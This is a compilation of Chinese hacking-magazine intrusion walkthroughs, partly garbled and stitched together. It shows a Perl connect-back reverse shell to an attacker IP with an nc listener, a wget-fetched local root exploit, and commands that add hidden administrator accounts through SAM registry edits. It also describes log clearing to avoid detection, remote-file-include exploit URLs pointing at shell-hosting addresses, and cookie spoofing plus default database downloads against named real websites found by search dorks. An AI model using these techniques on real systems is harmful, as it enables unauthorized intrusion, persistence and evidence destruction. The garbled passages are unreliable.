  encryptcode="3c118874cb5b0b8cb516ec134b75c931"
  page=UnMd5(encryptcode)&".htm"
end if
```

粗略一看，大概知道密码 `3c118874cb5b0b8cb516ec134b75c931` 是 `ice` + `???????` 的 MD5 值。既然是 7 个问号，那有可能是 7 个数字，不然 7 个字母或者 7 个字母加数字够我们跑一阵子了，我估计作者也不会这么无聊，让我来跑复杂的 MD5。拿出 MD5Crack3.exe，用插件设置一下。具体设置语句为 `[i][c][e]7{0-9}`，如图 4。

只需半分钟，跑出来密码是 **ice5555555**，这样就顺利到达第 5 关：**http://www2.tr4c3.com/game/ice5555555.asp**，如图 5。

这关就简单了，原来是 ASCII 码，解密后为：
感谢您对冰点的支持！下一关的密码是：/ 6 / 666666_icehack.html

打开 **http://www2.tr4c3.com/game/6/666666_icehack.html**，我晕了，有 500 个连接，并且提示说明只有一个连接是真的，也就是第 7 关地址。每一个地址只要不是真的地址，都显示 error!。

本来我想写一个程序，设置 500 个数字目录当成字典，然后程序规定打到内容不是 error! 时就说明找到了。可我考虑了下，也就只有 500 个目录嘛，又不是一万个，作者肯定把地址弄到中间了，不然后面试几个不就出来了。于是我从 200 开始试起，果然不出我所料，试到 215 果然猜中了。地址就是 **http://www2.tr4c3.com/game/6/215/the-7.htm**

打开第 7 关页面，显示如图 6。刚刚看到时我也晕了，不知道上面为何物，源代码也没提示是什么加密。正当我一筹莫展的时候，我同事看到了这个，告诉我这是一种电报密文，叫什么滴答滴答。于是我才有了方向去搜索。鉴于我 Google 的功夫不错，不出 2 分钟就搜出来这是摩斯电码。

### 摩斯电码对照表

| 字符 | 电码 | 字符 | 电码 | 字符 | 电码 |
| :--- | :--- | :--- | :--- | :--- | :--- |
| A | .- | Q | --.- | 1 | .---- |
| B | -... | R | .-. | 2 | ..--- |
| C | -.-. | S | ... | 3 | ...-- |
| D | -.. | T | - | 4 | ....- |
| E | . | U | ..- | 5 | ..... |
| F | ..-. | V | ...- | 6 | -.... |
| G | --. | W | .-- | 7 | --... |
| H | .... | X | -..- | 8 | ---.. |
| I | .. | Y | -.-- | 9 | ----. |
| J | .--- | Z | --.. | 0 | ----- |
| K | -.- | . | .-.-.- | ? | ..--.. |
| L | .-.. | - | -....- | ( ) | -.--.- |
| M | -- | | | | |
| N | -. | | | | |
| O | --- | | | | |
| P | .--. | | | | |

有了这个表，密文迎刃而解：**8888.ice.hack**。然后试后面的后缀了，得到地址是：**http://www2.tr4c3.com/game/8888.ice.hack.asp**

打开地址，提示显示 `if response.cookies("ice")="icehack" then 答案`。这个好说，改一下 cookies 就可以了，打开 **iecv.exe**，如图 7。把 key 里面的值改为 **ice**，value 里面的值改为 **icehack** 保存后，重新打开 IE 输入 **http://www2.tr4c3.com/game/8888.ice.hack.asp**，提示下载一个 **99999999.rar** 的文件。

下载解压后，是一个 **FileZilla.xml**。用文本方式打开，发现里面有一个 `Pass="0930810760870520350451060405045050042102040057059"` 并且 `User="pass.is.page"`。那就说明密文就是地址了。可我还是苦于不知道是什么加密方式而郁闷。然后就在 Google 乱搜一通。在我搜 FileZilla 这个文件名时发现，FileZilla 是一个免费的 FTP 客户端软件。下载安装后，在安装目录发现同样有一个 FileZilla.xml 的配置文件。这下我又有了头绪了。

打开 FileZilla，新建一个主机，然后用户名、密码随便输入，连接一下再退出，把 `0930810760870520350451060405045050042102040057059` 替换掉配置文件里面的 pass，然后打开 **WsockExpert.exe**，选择 FileZilla，开始抓包，如图 8。哈哈，密码出来就是 **jiuguan.htm**，地址就是 **http://www2.tr4c3.com/game/jiuguan.htm.asp**。

第九关提示是：直接打开此地址是看不到任何东西 D!（外部来源只会看到你现在在看到的东西哦!）。其他的什么提示都没有。这时我想，可能是外部来的数据就被返回没有的东西，看来得让它用内部地址返回。明白了这一点就好了。还是先抓下 **jiuguan.htm.asp** 的包。

```http
GET /game/jiuguan.htm.asp HTTP/1.1
Accept: */*
Accept-Language: zh-cn
UA-CPU: x86
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.2; .NET CLR 1.1.4322)
Host: www2.tr4c3.com
Connection: Keep-Alive
Cookie: ice=icehack; cck%5Fcount=1; ASPSESSIONIDAQTBBCTA=GAAGLFHBHIKIFIDFGHIFBNEO
```

不过这个没有来源地址，在 `Accept: */*` 后面还要加一句 `Referer: http://www2.tr4c3.com/game/`。然后存为 **1.txt** 用 **nc** 提交：`nc www2.tr4c3.com 80 < 1.txt > 2.htm`。

查看 2.htm 有以下源码：

```html
<td>第九关提示:\00-17922\00-17922\00-23636\00-15133\00-16460\00-19011\00-13646\00-15436\00-15925\00-15144\00-23617\00-13625\00-19781\00-13625\00-11306\00-20037\00-12590\00-14675\00-16206\00-23647\00-17703\00-17703\0033</td>
</tr>
</table>
<table border="1" width="100%" cellspacing="0" cellpadding="0">
<tr>
<td> </td>
</tr>
</table>
<font color="#FFFFFF">0x6F7665722D7873732E617370</font>
```

上面是 Unicode 编码，下面是 16 进制，分别翻译一下就是：
“哈哈，你看到什么了呢？是不是又被我骗啦！嘿嘿！”
**over-xss.asp**

直接打开 **http://www2.tr4c3.com/game/over-xss.asp** 显示如图 9。由于服务器问题，第 10 关暂时无法打开！看来没的玩了！到此为止吧！

祝大家玩得开心！另外不会忘了祝大家 2007 年技术更上一层楼，over!

(文章中用到的 WsockExpert, ascii.exe, Base64.exe, c2c.exe, code.exe 以及 HA-FileZilla_v2230-FzH 均收录在光盘中)

> **编辑点评**：黑客游戏是个好东西，不仅能引起玩家的兴趣，更能提高玩家的技术，本文作者玩的这个游戏总体来说思路还是比较灵活的，记得一年前设计的黑客游戏都是加密解密的，设计得不是很灵活，希望喜欢玩网游的朋友能多玩玩这样的游戏，不仅能开阔视野，还能开拓思维。
> 
> **小天语重心长**：一年又过去了，真快，小编铭也毕业参加工作半年有余了，身边很多还在学校，即将参加工作的朋友经常问我，怎么找工作，是找自己喜欢的工作，还是找有前途的工作，找什么样的工作等等类似的问题。怎么说呢，我也希望能够作为在刚刚走过这段路的“过来人”给他们提些意见，但是毕竟我也才工作半年，没有资本来“教导”你，只能拿自己的想法和大家分享：不管你以后要做什么，趁着现在还年轻，千万不要虚度时间，不要去了那种很“享受”的单位，然后跟着一些比你大很多的人“堕落”，你要知道，你现在的工作不是给别人打工，而是给你自己增加“砝码”，多学习，让自己忙起来。程序员永远没有我们这样找 BUG 的细心，我们总能找到他们程序中的小 BUG，看来以后大家退出安全界，可以去 IT 公司谋一份测试的工作，绝对不会比专业的测试人员差，“呵呵”；文章中有一处合并 ASP 代码到 GIF 文件中的做法，不晓得是不是当时作者发现上传程序对上传的文件头做了检查，要不然，直接把 ASP 文件的后缀改为 .GIF 上传不就可以了吗？

---

## 从 web 漏洞到 root 权限全暴现
### cnbird[H.U.C]

从本文中你可以学到：
- 1. 从 WEB 漏洞到 ROOT 权限的过程
- 2. 如何在 LINUX 下进行提权

得到了一个一句话的 PHP 木马，地址是 `http://www.jwit.edu.tw/~s9246071/blog/cache/loveshell.php`。

文章主要讲述了从 web 漏洞拿到 shell 后，通过本地提权、连接小木马、上传木马、利用 c99shell 等方式最终获得 root 权限的过程。下面我们会先简单查看一下拿到的 webshell，并通过链接进入。随后上传一个与目标机相连的木马，再通过 c99shell 访问目标环境。

- 图 7 上传后门
- 图 8 本机 IP 地址
- 图 9 执行后门程序
- 图 10 得到 shell
- 图 11 输入 bash -i
- 图 12 上传溢出代码
- 图 13 得到 root 权限

下面在 webshell 里面开始执行吧：`perl /tmp/comeback.pl`，输出的结果是 `Connect Back Backdoor by Ch3m0nZ - Satanic SoulsAlvo. /tmp/comeback.pl [Host] <Port>`。这里告诉我们具体的利用方法，先看一下自己的 IP 地址，使用 nc 绑定一个端口就 OK 了。好了，有了思路就开始行动吧，如图 8，我本机的 IP 地址是 121.16.23.25。

下面在 CMD 里面输入 `nc.exe -vv -l -p 12345`，意思就是在本地开一个 12345 端口，目的是远程机器通过这个端口来连接。好了，回到我们可爱的 webshell 里面执行 `perl /tmp/comeback.pl 121.16.23.25 12345`，如图 9，我们开的 nc 已经有反应了，我们已经可以在这里执行 shell 了，嘿嘿。如图 11。

得到一个 shell 了，我们下面要做的事就是提权了。我们打开 milw0rm.com，去 local 栏去找本地的 linux kernel 2.6 版本的本地 root 提权，k-rad3.c 等试了几个没有得到 root。最后无聊地去 google.com 搜索 linux local exploit，找半天没找到，最后在 nsfocus.net 找找吧，也许有意外收获。

接下来，发现了一个不错的本地提权漏洞，先看一下漏洞的描述吧：Linux Kernel PRCTL Core Dump 处理是 Linux Kernel 用户级开头与核心态 Linux Kernel 所使用的内核。Linux Kernel 的 `prctl()` 调用在处理 Core Dump 时存在漏洞，本地攻击者可能利用这个漏洞通过设置 `PR_SET_DUMPABLE 2`，阻止空白信息丢失，将 core 文件增加到指定位置。由于未加限制，攻击者可利用 core 文件和调试程序提升为 root 权限。本地用户可以创建复位解释程序，将 core 文件中的某些内容转换为特定格式，进而获得 root 权限。

搜索一下吧，很快我们就找到了利用程序 `prctl.c`。我们把它放到本地机器上，从 shell 里面输入 `wget http://121.16.23.25/prctl2.c`，如图 12。已经传到了上面了，我们开始编译执行吧：`gcc prctl2.c -o local -static -Wall`。这个漏洞程序需要我们静态地编译，命令成功了。我们输入 `wwwrun@www/tmp> ./local` 开始执行，等待 1 分钟左右时间吧，我们输入 `id`，哈哈哈！这个时候已经是 root 权限了，输出的结果是 `uid=0(root) gid=0(root) groups=8(www)`，如图 13，看到吧，我们已经拿到了本地 root 权限了。

---

## 浅谈如何留下隐形后门

从本文中你可以学到：
- 1. 如何留隐形后门
- 2. ASP 中的一些技巧

随着杀毒软件更新速度的不断提升，当 ASP 木马也被各杀毒软件盯上时，新出来的免杀 ASP 木马又就此大放异彩了。眼睛盯着眼前依然不能安然的服务器，WEBSHELL 从手中诞出，往往等发现时已表里不如一。今天就来说一下如何留隐形后门（前提是拿到 webshell）。

### 一、session 后门

## 三. 终极招数——SESSION 验证改 COOKIE 验证：

以前我们介绍过商贸通 2006 的 COOKIE 抓漏洞，下面就分别看一下商贸通 2005 和 2006 的 chkadmin.asp 文件的部分代码：

(1) 2005 部分代码：

if not(rs-bot and rs-eof) then
    if password="[SMT_password]" then
        session("admin")=rs("SMT_nick")
        session("adminflag")=rs("SMT_flag")
    end if
end if

(2) 2006 部分代码：

if not(rs-bot and rs-eof) then
    if password="[SMT_password]" and nick="[SMT_nick]" then
        Response-Cookies("admin")=rs("SMT_id")
        Response-Cookies("admin")=rs("SMT_id")
        Response-Cookies("adminflag")=rs("SMT_flag")
        Response-Redirect("manage.asp")
    end if
end if

从上面我们可以看到 2005 和 2006 的 chkadmin.asp 文件的验证方式，2005 是以 session 来存储用户的 SMT_nick 和 SMT_flag，2006 是以 cookies 来存储用户的 SMT_id 等信息的。所以 2006 的 cookie 抓漏洞，而 2005 和不在这个漏洞，从这里我们可以想到 2005 的 session 验证方式改成 cookie 验证方式，那么 2005 也会出现 cookie 抓漏洞，这样的更改估计管理员也很难发现，即使下次马儿被发现了，也不担心又改掉了，因为我们的图能出来啦。

编辑点评：当黑客越来越与商业利益挂钩的时候，能分享自己的经验的人越来越少了，把已有的技巧教给新手，一方面分享才能有进步，另一方面大家有一些独特的小技巧、小思路，写文章或者到我们的 BBS 一起分享。

## 一次“完整”的渗透过程

樱花浪子 [I.S.T]

从本文中你可以学到：
1. 穿注渗透
2. 一些有用的技巧

刚接过来新公司，间谍公司有两网站，像我这闲人当然不能放过了，直接打开 http://www.xxx.com.cn，发现网站全为 ASPX 的，初步判断为 2003 的系统，统一了国税局发现有漏洞，直接着手发现有 5 个站点，一站点一小站点发现，在 www.xxx2.com.cn 的后台目录，发现为财税局管理系统，图 1。

命令组件为真，但是执行不了命令，上传统 CMD 也不行，稍微可直接在本机的 CMD 下执行：ftp 扫描图，没得到如图 3 所示，SERV-U 5.0 的，乔死，古道了。

直接上传 ASP 提权工具，添加账户试下，巡查我添加的是 cmd /c net user hackly hackly /add & net localgroup administrators hackly /add，没有成功，刚开始以为是改了默认密码什么的，发帖寻重，给他说没改，后来添加 buestaa 成功了。

发现 C、D、E 盘没有权限访问，

## 黑客手册 2007/03 NOHACK

这是上面服务 30 秒重启，过了一会儿再试，成功连接上了，图 4。

上面只是简单地说下脚本入侵过程，也抄本文的重点，3389 是进去了，可惜管理员在 CMD 了就在查看我的电脑—管理—计算机管理—用户里可以看到的，如图 5。

下面我们就来添加隐藏的超级用户，首先在肉鸡的 CMD 下执行：

`net user hacklu$ hacklu /add`

，然后再运行 `regedt32` 到 `HKEY_LOCAL_MACHINE\SAM\SAM`，此时如果 SAM 下没有键值是说明当前用户的 SAM 权限没设置。我们在 SAM 上单击右键，选择权限。右侧选择图中选择用户或组的对话框中选择“高级”，在弹出的对话框中选择“立即查找”如图 6 所示。接着找到我们刚才添加的 hacklu$，连续两次确定，来到了 SAM 权限的对话框，把“完全控制”前面打上勾，如图 7 所示。再次运行 regedit32 之后的一不一样，来到 HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names，注意与 Names 项同级的 Names 字样不再是 0000xxx 之类的键，它们分别对应 hacklu$ 的一种账号，查看对应关系是单击每个账号时，取某非对应的就是固定的 0x422，如图 8。

选中 hacklu$ 账号。单击文件—导出，命名为 hacklu$.reg，选择刚才导出的 11.reg，也就是管理员的，用记事本打开，我们会看到 F 和 V 两个部分，选择 F 部分的，图 9。

然后复制，在用记事本打开 12.reg，粘贴在 F 部分就。也就是使 hacklu$ 用户具有 ADMIN 的权限，保存一下 12.reg，退出。

再回到 CMD 下用 `net user hacklu$ /del` 删除这个帐号，双击 12.reg，将它导入注册表，再双击 hacklu$.reg，也导入注册表，在 CMD 下用 `net user` 命令查一下，看不到 hacklu$，图 10。

再来到计算机管理—用户里看一下，也看不到 hacklu$，图 11，但我们的这个用户是存在的，而且还是超级用户，虽然我们还添加了隐藏的管理员用户，但为了安全，我们必须要把日志清除干净，也就是把 PP 擦干净，而且手纸一定要好用。

一个好的管理员会经常看日志的。就连我们平时提交的 asp? id=11 and 1=1 这样的都记录在日志里，关于怎么来看日志入侵者不在本文讨论之中。要清除日志必须要了解一下日志。开始—运行—eventvwr，或我的电脑—管理—系统工具—事件查看器。在所有的 WINDOWS 版本里至少都能看到三种日志记录事件，如图 12。

1、应用程序日志：包含由应用程序系统记录的事件。
2、安全性日志：记录有网关访问和安全相关的各类事件，可用于审核安全事件，如登录和权限设置等。
3、系统日志：包含由系统记录的操作系统事件。

## 巧用网站配置文件提升权限

从本文中你可以学到：
1. 在 ASP.NET 下提升权限的技巧
2. 一些实用的技巧

通过“海洋顶端 2006”我们收到最重要的一条信息是该服务器支持 Asp.net，因此我通过“海洋顶端 2006”网页马上传上一个 Aspx 的网页木马，如图 2，其调用名称为“webadmin”，其实功能跟“海洋顶端 2006”网页木马类似，只是用 asp.net 写的，上传上去以后在浏览器中输入相应的地址，哈哈，运气太好了，运行正常，如图 3。

一、系统信息收集
对于系统信息收集，很多朋友都很熟悉，在 asp、asp.net 木马中都带有一个“服务器信息”链接，可以很方便地查看服务器的硬件和软件相关信息。但是这些信息只是一个初步信息，常常要进一步获取信息，例如是否可以浏览操作系统安装盘的文件及其目录，是否可写等。

二、寻找突破口
对于网站提升权限来讲，最便捷快速的方法就是通过数据库连接，目前一些网站都采用了 Windows 2003 Server，这种功能一般配置都较好，安全性方面跟 Windows 2000 Server 相比有了较大提高，虽然如此，由于它不能进行频繁的网络发布请求，在 Windows 2003 Server 中提供了 asp.net 技术的支持，其中最重要的一个文件就是 Web.config，如图 4。
该文件必须放在网站的根目录中，如果没有这个文件，一旦运行 asp.net 程序就会出错。基本所有的配置信息都在该文件中。

下面给大家来第一种方法，先来到 IIS 管理器后，右键我们的 WEBSHELL，选择属性——属性文件夹——在身份验证和访问控制中点击编辑，此时的 WEBSHELL 权限是 IUSE，如图 15 所示。接着我们把权限改成可写，之后就有了权限去建立自己的目录、执行自己的程序，甚至可以直接删除或替换原有文件。

当然，这样做是有风险的，黑客最不喜欢的就是这种工具。运行 cleanIISLog.exe 日志路径文件名自己的 IP，就可以把自己的 IP 日志刷掉了。如图 14。

我们直接对网站脚本的权限进行更改，比如把 WEBSHELL 组为管理员权限，也就是能访问任何目录和做执行命令等，当然这种权限特别强，将 IIS 提升到 SYSTEM 权限，获得最高权限。WEBSHELL，这是一个利用文件安全性——在身份验证和访问控制中点击编辑，给 WEBSHELL 权限为 IUSE，如图 15 所示。我们把 WEBSHELL 权限改成可写后，此时的 WEBSHELL 也就可以执行每个对应的权限直接可写。
本文前面介绍一类简单的人侵，最后介绍一下添加隐藏用户和清除日志，提升 WEBSHELL 等，希望能够给比我菜的朋友们带来帮助。

查看是否存在 Serv-U，关于 Serv-U 提升权限比较多，本文不再赘述。
查看“C:\Documents and Settings\All Users”是否存在 PcAnywhere，如果存在则将该目录下面的所有文件下载回来，通过 PcAnyWhere 密码获取工具获取密码和用户名，然后直接通过 PcAnyWhere 连接即可，同时，如果可行，千万记得找主人不在的时候。

本文通过 Webshell 将 Web.config 文件下载到本地，然后通过 UltraEdit 打开该文件，从中可以获取很多有用的信息，如图 5，知道运行数据库服务器的类型为 SQL Server，IP 地址为 127.0.0.1，说明数据库和 Web 服务器在同一台机器上。数据库用户权限为 sa，数据库密码为“admined”，连接的超时时间为“10000”。
说明，Web.config 只能通过一些翻新工具，网站的配置文件，网站安全设置，网站数据库连接信息，网站站点处理等，一般是以 XML 格式生成的。

# 三、提升权限

网站默认支持 asp，对于大多数 Windows 2003 Server 服务器，其网站都支持 asp.net。如果使用 asp 账号不能提升权限，则可以通过 asp.net 网页木马来提升权限。我的 Asp.net 的 Webshell 是 Webadmin，其中就有一个通过数据库来执行 sqlrootkit 命令的功能。Host 中输入主机地址“127.0.0.1”或者是主机的真实 IP 地址，在 sql name 中输入数据库用户名“sa”，在 SQL Password 中输入刚才获得的密码，然后在“Command”中分别输入命令“net user temp hackerhand /add”、“net localgroup administrators temp /add”，如果没有什么意外，一般都能执行成功，如图 6，图 7。

在添加用户时，有的服务器对口令有限制，例如必须是数字、大小写字母和特殊字符的组合，并且要求有一定的位数。呵呵，这个口令就不用再多费口舌了，添加用户后，虽然显示结果表示成功，但是还需要通过“net localgroup administrators temp”命令进行核实，以确保添加用户成功，通过图 8 我们看到了用户组已经成功。

# 四、实施控制

对于服务器来讲，最方便的办法就是直接开启 3389，通过查看端口和在本地端口扫描发现该机器已经被开启，如图 9，然后通过 3389 端口进行登录。开启 3389 有多种方法：
(1) 通过 mt 的“mt -setups”来

(2) 使用 rots.vbs 脚本
Rots.vbs 是由风名为“灰色轨迹 zazevaazz”提供。

(3) 使用 bat 命令
通过记事本建立一个 bat 文件，其中分别输入以下内容：

echo [Components] > c:\sql
echo TSEnable = on >> sql
c:\sql\sqlservice.exe /c:winnt\inf\sysoc.inf /u:c:\sql /q

然后运行该批处理命令，重启计算机后，远程终端服务开启成功，该方法不能更改终端服务的端口。

(4) 导入一个 reg 文件到需要开启终端服务的机器中
该方法主要是修改远程终端服务的端口及其相关设置，通过生成一个以 reg 为后缀的文件，将该文件导入到需要开启终端服务的计算机上。该方法比较隐蔽，通过服务管理器以及“net start”命令均不怎么强烈终端服务已经启动。

(5) 使用 SQL 注入启动 3389 服务
在 Domain3.5 以及教主的 HDS12.0 SQL 等注入工具中均提供了开启 3389 服务的功能，使用该软件来打开 3389 的前提条件是运行 Web 服务的服务器端存在 SQL 注入漏洞，而且数据库用户的权限较大，在 SQL Server 2000 下数据库用户必须为 sa。

五、扫扫战场
很多朋友在入侵成功后，大多不喜欢清理自己在入侵时留下的痕迹，这个习惯很不好。万一被“抓住”，你留下来的痕迹很有可能会作为证据的留下。比如在先前连接到机器后需要清理日志记录、临时文件、最近打开文件。在远程登录和实施成功后及时做好删除痕迹，这样即使被人攻击，也想不到是你。

特别提示：很多朋友第一习惯就是不怎么删文件，不清理在远程主机上的垃圾，留下大量的痕迹，这是非常危险的。

三、人员的爆发

不过觉得的运气一般比较好，Admin index.asp 没有被删除，这样我就有机会，用先前得到的密码登录，发现还可以进去。接下来就是备份得到马了，但这个时候又出现了意外。有选择可以上传我的东西（ASP 马），我试着直接将 http://www.***.com/bbs/post.asp?action=new&boardid=...，但不管我怎样弄文件的后缀，它就是说没有权限。后来在别人的帮助下，暂时解决了这个问题，如图 4。## 搜索出嗅嗅权限

本文中你可以学到：
- 构造注射地址
- 渗透技巧

登录 www.xxx.cn，界面看着挺爽的，asp 做的。现在进入后台，密码一填，提示没有此人啦（预料中的）。如果是乌云咔咔就钻进去了，不过，我们不能在一棵树上吊死。其实这个工具没有发现漏洞后还有很多办法进入 80 端口入侵的，比如扫它后台，用弱口令，或者看看它绑定在一旁的其他站点的安全性怎么样，还有可以看看它是不是不用什么数据库。下面的源代码分析（对某漏洞了解了点，不过现在很多漏洞牛人都有分析过了，连工具都有），今天我就介绍的是另一个较偏门的办法——搜索型注入。

通过其他方法来获得 webshell，在此，我强烈对挂马者表示鄙视！希望大家以后黑了人家站跟管理员通知一下，这样挂马搞肉鸡不觉得良心不安么？我看到那挂马的是一个叫“黑鹰联盟”的组织，留了几个非常霸道的话。（文章中用到的站长数据库浏览器已经收录在光盘中）

> **编辑点评**：文章写得比较简单，主要就是一个信息收集、分析、利用的过程。此外，成功渗透加分，在于注重一些细节信息不能遗漏，利用细节决定了你的成败；另外，小作者渗透对付数据库的建议也值得大家学习。

关键字“到列表站”（注意中间有空格），看到它的名字为 name 值为 txtDaoda，然后找到它所提交的地址为 `http://www.xxxx.cn/member/search.asp?txtDaoda=武汉`，这就是新的注入地址。我们把它放到 NBSIs 查看，如图 3。

哇，跑出来了，是 db_owner 权限。下面有两条路：一是清管理员的表，得到用户和密码再去后台管理；还有就是旁注或者 log 备份了。前一种方法会出现很多情况，比如它不列后台，找不到管理页面的表，后台加密等。所以我们这边操控了后台（假设该数据库和 web 在一起，不好弄掉第一种）。根据经验找到了它的 web 目录，找到了 log 备份，因为是昨天有时备份出来的文件会很大，不方便截图了，顺利备份，提示成功了，如图 4。

本来以为一会就可以拿一台肉鸡了，结果用户目录中好像发现了一个 response.redirect，重定向到别的小马之前，服务器已经把内容返回给我们了。经典的办法有两个：即可以设置 response.buffer=true 或把狗挡掉，待会儿自己去打开。我走进去后门，顺利得到 shell，如图 6。

## 菜鸟玩远程包含漏洞实战篇

本文中你可以学到：
- 怎样利用已知漏洞
- 远程包含漏洞入侵整个过程

### 一、菜鸟的感慨

哎！为什么我到最后总是找不到别人没有找到的漏洞呢？别人找到漏洞了，写文章就有了理论知识，让我们在模拟中生长。漏洞啊，它是我们小菜鸟所能理解的！

### 一、菜鸟找漏洞

作为菜鸟的我不甘这样忍受高手的蹂躏，我要冲破束缚，翻身在 shell 的天空。这里我非常感谢大名鼎鼎的 Google、百度以及其他搜索引擎，它们给了我们希望，给了我们莫大的帮助。今天就让我带着 Google 和百度一起努力，开始找漏洞的旅程吧！

首先在百度里输入“远程包含漏洞”这个关键词，一页一页地查找，结果我了若指掌！我又在 Google 里搜索了一些相关内容，发现一个新站点，在网站漏洞的页面挂上木马，让我们就能得到好处。对于我们菜鸟来说，需要不断地去学习，积累经验，逐步掌握各类技巧。

在 Google 里输入 `add.php?Htmls=` 作为关键字进行搜索，返回结果如下图 1。

AFGB GUESTBOOK 2.2 (Htmls) Remote File Include Vulnerabilities

```text
# AFGB GUESTBOOK V2.2
# Htmls Remote File Include Vulnerability
# Turkish Hacker's
# Discovered By : mdX
#
# Cyber-Warrior Tm
# Ay Ve Yildizlar Geceye Yaksir..
# the moon and the stars suit the night
#
# Class : Remote
#
# File : add.php, admin.php, look.php, re.php
# Code : include $Htmls;
```

### 二、菜鸟找漏洞

细看下去，发现有一条漏洞信息写得很清楚，我便开始搜索相关资料，继续找到一些结果。最先在百度里输入“远程包含漏洞”后，又在 Google 里继续查找，得到了一些关于 AFGB GUESTBOOK V2.2 的相关信息。

在搜索结果中我看到一些 exploit 相关内容，如：
- Exploit: `http://www.target***/[path]/add.php?Htmls=http://shell.txt?`
- Exploit: `http://www.target***/[path]/admin.php?Htmls=http://shell.txt?`
- Exploit: `http://www.target***/[path]/look.php?Htmls=http://shell.txt?`
- Exploit: `http://www.target***/[path]/re.php?Htmls=http://shell.txt?`

ThankX: Cyber-Warrior User; PROHACK; Siber-korsanlar; fredx; diplomaniac; zAlev; Shinka; x0rm; real-dark-boy; All Friends

Download link: http://www.afgb.to/
miw0rm.com [2006-10-12]

现在就知道了包含漏洞文件的程序名称版本是 AFGB GUESTBOOK V2.2，而且让我们获得有用的站点地址。通过 Google，我们根据搜索引擎快速搜索到漏洞站点的信息。

### 三、顺利地拿下一批 webshell

通过前面得到的信息和 Google 搜索等引擎的配合得到漏洞的站点，这次我们在 Google 中搜索关键字“AFGB GUESTBOOK V2.2”，如图 3。

找到漏洞站点后，去试远程包含，我们来到漏洞站点 `http://bookgb1.xoops.twpopo.com/`，如图 4。

至于这个程序的漏洞利用方法，这里采用一个 PHP 代码地址，我们知道有三个：`http://www.sagi.net.cn/php.txt` 是国内的、`hack-viyu.h16.ru/shell/r5rshell.txt` 是国外的、r57shell: `http://pang0.by.ru/shail/pang057.zz` 也是国外的。我们用国内的 `http://www.sagi.net.cn/php.txt` 试一下（提示：注意在图 4 和图 5 内浏览器地址栏的区别！！）。

按照图 5 地址栏所示，点击浏览器“转到”按钮，或直接按 Enter 键，出现如图 6 的信息。

这样就成功一半了，我可以到可写的目录上传 PHP 木马。看图 7，其中 r 表示有读的权限，w 表示有写的权限，x 表示有执行的权限。

找到一个有写权限的路径，找到我们上传的地方上传我们的木马。上传的地方如图 8。上传成功后运行我的木马，如图 9。

下面的图 10、图 11、图 12、图 13 是几个具有漏洞的站点，大家可以试验一下。

哈哈！找到了 webshell 的网站，如图 14、图 15。上传傀儡的黑页后，如图 16、图 17。

### 四、菜鸟广泛入侵

入侵本应该到此结束，可是这样不符合我懒人的做法，就像投毒，要投就要连根拔起！废话少说，各位菜鸟都急了！先看了看这个留言本，并且把它下载回来到本地进行分析，找特殊的页面在 Google 里搜了一下，效果并不理想。

我找到才得到的几个网站分析了一下，发现它们有一个共同点，那就是在首页都带有版权信息：“程式设计：过去云烟 [V2.2]”。看来以这个为关键字可以得到一大批有漏洞的站点，接着以此为关键字在 Google 中搜索，也发现了许多有漏洞的网站，随便找一个来试一下，操作步骤如图 18、图 19、图 20。

### 五、菜鸟总结

其实这次入侵的都是台湾的站点，但我并没有实际破坏。其实说是有漏洞，但我这边再看起来。实话说，我的技术还是不行的，这方面我还是请教我们的战友，我是 fint 战队的 fint.yongyule，欢迎大家来到 www.fint.cn 与我交流，要 Linux、FreeBSD 肉鸡的赶快哈！

---

## 分析中国网络电视被黑以及友情检测江苏特价图书批发网

从本文中你可以学到：
1. Google 的搜索技巧
2. Cookies 欺骗的简单操作

### 一、事件起因

在看成名网友的帖子时，看到“冰的蝴蝶”发帖说中国网络电视被黑！满怀好奇也在查看有没有被黑啊。网易、腾讯……队长 Cass 也说，怎么不被黑呢？我想，俗话说：空穴来风，并非无因！那个站肯定是有漏洞的，我今天一定要找出漏洞的根源。

### 二、得到论坛管理员权限

仔细地分析了 `http://www.cntv.net.cn/` 的网站结构，没有找到可以利用的地方。看站时，看到网站有论坛，于是进去，看到底部版权信息是 “Powered by TEAM 1.0.1 - ACC © 2005 Team5 Studio All rights reserved” 时，呀！这不是以前出过 Cookies 窃取的 Team 1.1 论坛吗？呵呵，还一直没有试过呢！好！和大家一起来试试吧！

到网上搜“Team 1.1 Cookies”的利用方法发现，Team 1.1 Cookies 欺骗可以得到前台的管理员权限。登入后得到了数据库下载路径，如图所示。然后就从数据库下手吧！在 `http://www.cntv.net.cn/team/` 的地址后面加上 `data/team.mdb`，看看能不能找到数据库！呵呵，还真被我成功了！

把数据库下载下来以后，打开表得到管理员密码。由于不一定是 MD5 加密的，顺便找到了 www.cmd5.com 破解站！最后得到密码为：51302857。

OK，知道用户名和密码后，赶快去找管理页面……先使用老兵的 MyBrowser，在地址栏中填入论坛的地址，先注册一个用户并进行正常登录，如图 1。

按下 Cookies 按钮，把 Cookies 里的用户名更改为管理员的用户名 admin（如果管理员用户名改了，可以从帖子中找到管理员用户名），然后刷新……啊，我变成了管理员了，如图 2。

点击“管理”，输入得到的管理员密码和账号进行登录，进去了……没想到我就得到论坛管理员权限了！如图 3。

### 三、入侵失败

进入后自然第一个目标是找地方上传图片马啦，然后备份！可是尝试了几次却怎么也不成功！如图 4。

在论坛信息中我们发现，原来网站禁止了 FSO 文本读写，而且许多组件都不支持。WebMaster 如图 5。

没有法子啦！看来得转移目标，放弃这站，找其他网站试试！虽然这个案例失败了，但是我有所明白，中国网络中“网站为什么可以被人黑了”……既然这里的漏洞没有补，只是禁止某些组件而已，那么，其他使用相同论坛的网站肯定还是有漏洞的！好！INT 战队升火了……

### 四、成功拿下一批网站

在 Google 里以 `inurl:../bbs/ "Powered by TEAM 1.0.1"` 为关键字进行搜索，如图 6。

随便找到 `http://www.szbooks.com.cn/bbs/` 这个网站，大概测试了一下这个网站，名字叫“苏州特价图书批发网”。接着我就以这个网站给大家示范一个详细的流程。

第一步：下载数据库。按照前面的方法看看能不能连接到数据库……可以了，又是一个默认数据库的网站，数据库地址是 `http://www.szbooks.com.cn/bbs/data/team.mdb`。打开数据库得到管理员的用户名和密码，把用户名 MD5 加密的密码拿到 www.cmd5.com 或 www.xmd5.com 去破解一下密码。

一看密码让偶觉得天才有敢动手！然后再上传了马！如图 7（密码这必须能行而不是不行咩……）。依然按照最开始的方法，先注册一个用户，然后再进行 Cookies 修改，成功成为管理员，如图 8。

